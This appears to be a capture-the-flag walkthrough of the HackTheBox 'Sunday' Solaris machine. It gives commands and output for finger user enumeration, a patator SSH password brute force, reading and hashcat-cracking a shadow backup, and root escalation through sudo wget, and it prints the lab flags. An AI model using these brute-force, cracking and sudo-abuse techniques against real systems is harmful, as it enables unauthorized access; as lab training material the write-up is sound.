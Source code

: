 ```yaml
---
title: HackTheBox - Sunday
date: 2021-01-04 12:13:03 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, Solaris, SunOS, finger, guessing, hashcat, sudo misconfiguration, GTFOBins, wget, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/Sunday.png
---
```


## Foothold

### `nmap` scan

```
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Sunday-full-port-scan.txt 10.10.10.76
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-04 09:27 CET
Warning: 10.10.10.76 giving up on port because retransmission cap hit (1).
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 20.79% done; ETC: 09:27 (0:00:19 remaining)
Nmap scan report for 10.10.10.76
Host is up (0.11s latency).
Not shown: 64580 filtered ports, 950 closed ports
PORT      STATE SERVICE VERSION
79/tcp    open  finger  Sun Solaris fingerd
|_finger: No one logged on\x0D
111/tcp   open  rpcbind 2-4 (RPC #100000)
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
41462/tcp open  unknown
49906/tcp open  unknown
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos
```

### finger (port 79)

We can use pentestmonkey's script [finger-user-enum.pl](https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl) to do our enumeration:

![finger users top usernames](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/finger-users.png)

Okay, we know there iis at least 5 users:

1. **root**
2. **admin**
3. **adm**
4. **mysql**
5. **user**

While figuring out what to do next on [Hacktricks - pentesting finger](https://book.hacktricks.xyz/pentesting/pentesting-finger), I ran `finger-user-enum.pl` a second time with a bigger wordlist:

> We could also use **metasploit** with `use auxiliary/scanner/finger/finger_users`.

```bash
$ ./finger-user-enum.pl -U /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames-dup.txt -t $TARGET
```

![finger users more usernames](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/finger-users-2.png)

From the screenshot above, we can notice tree things:

1. We got more valid usernames
2. The user `sunny` seems to have been connected from a remote IP address `10.10.10.4`
3. The user `root` seems to have been connected from the local machine `sunday`

### SSH (port 22022)

#### Bruteforce old SSH with `patator`

Probably due to an exchange algorithm error, we'll use `patator` instead of using `hydra` to bruteforce ssh.

```bash
$ patator ssh_login host=$TARGET port=22022 user=sunny password=FILE0 0=/usr/share/wordlists/seclists/Passwords/probable-v2-top1575.txt persistent=0 -x ignore:mesg='Authentication failed
.' --timeout=5
```

Valid credentials found/guessed:
- **username**: `sunny`
- **password**: `sunday`

## User (sunny)

```bash
$ ssh -p 22022 sunny@$TARGET
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1

$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -p 22022 sunny@$TARGET
The authenticity of host '[10.10.10.76]:22022 ([10.10.10.76]:22022)' can't be established.
RSA key fingerprint is SHA256:TmRO9yKIj8Rr/KJIZFXEVswWZB/hic/jAHr78xGp+YU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.76]:22022' (RSA) to the list of known hosts.
Password: 
Last login: Tue Apr 24 10:48:11 2018 from 10.10.14.4
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sunny@sunday:~$ 
```

There is another user called `sammy` who has a home directory:

```bash
sunny@sunday:~$ cd ..
sunny@sunday:/export/home$ ls -la
total 8
drwxr-xr-x  4 root  root   4 2018-04-15 20:18 .
drwxr-xr-x  3 root  root   3 2018-04-15 19:44 ..
drwxr-xr-x 18 sammy staff 27 2020-07-31 18:00 sammy
drwxr-xr-x 18 sunny other 30 2018-04-15 20:52 sunny
```

Let's run `sudo -l`:

```bash
sunny@sunday:/tmp$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
```

Since we can only execute it, I will not spend time on it _(for the moment)_.

On `/`, there is `backup` directory which we have access to:

```bash
sunny@sunday:/tmp$ cd /backup
sunny@sunday:/backup$ ls -la
total 5
drwxr-xr-x  2 root root   4 2018-04-15 20:44 .
drwxr-xr-x 26 root root  27 2020-07-31 17:59 ..
-r-x--x--x  1 root root  53 2018-04-24 10:35 agent22.backup
-rw-r--r--  1 root root 319 2018-04-15 20:44 shadow.backup
sunny@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636:::::
```

> `$5$` is for SHA-256 hash.

###  "Cracking" sammy's password with `hashcat`

According to the manpage of `hashcat`, **7400** is SHA-256 mode:

![74400 sha256 unix](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/man-hashcat.png)

![hashcat](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/hashcat.png)

Sammy's password is `cooldude!`.

## User (sammy)

![sammy ssh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/sammy-ssh.png)

- flag:

```bash
sammy@sunday:~$ cd Desktop
sammy@sunday:~/Desktop$ cat user.txt
a3d9498027ca5187ba1793943ee8a598
```

- `sudo -l`:

```bash
sammy@sunday:~/Desktop$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
sammy@sunday:~/Desktop$
```

Let's check `wget` on [GTFOBins - wget](https://gtfobins.github.io/gtfobins/wget/) to see how we can privesc:

![wget gtfobins](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/wget-gtfobins.png)

We cannot use it to privesc! 

Even if we can download a malicious file and then execute it, it will not be done as **root** but as **sammy**. This is because of the pipe  (`|`) as you can see on the image below:

![reverse shell failed](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/reverse-shell-failed.png)

However there are other things that we can probably do.

1. We can **read** every file: 

![/etc/shadow](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/etc-shadow.png)

2. We can **overwrite** the `/root/troll` binary

## Root

![root](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/root.png)

- flag:

```bash
root@sunday:~# cd /root
root@sunday:/root# cat root.txt
fb40fab61d99d37536daeec0d97af9b8
```
___

## Useful links

- [pentestmokey - finger enum](https://github.com/pentestmonkey/finger-user-enum)
- [hacktricks - pentesting finger](https://book.hacktricks.xyz/pentesting/pentesting-finger)
- [Hashcat - example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)